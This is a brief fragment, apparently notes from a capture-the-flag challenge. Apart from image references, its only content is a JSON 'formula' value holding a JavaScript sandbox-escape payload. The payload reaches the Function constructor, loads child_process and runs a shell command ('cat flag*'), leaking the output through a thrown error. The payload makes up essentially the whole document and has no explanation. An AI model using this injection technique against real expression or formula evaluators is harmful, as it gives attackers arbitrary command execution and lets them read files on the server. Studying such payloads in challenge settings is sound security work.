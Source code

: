 ___

```json
"formula":"(function (y){return ''[y?y:'length'][y]})('constructor')('throw new TypeError(process.mainModule.require(\"child_process\").execSync(\"cat flag*\").toString())')()"
```

![[Pasted image 20241030185659.png]]

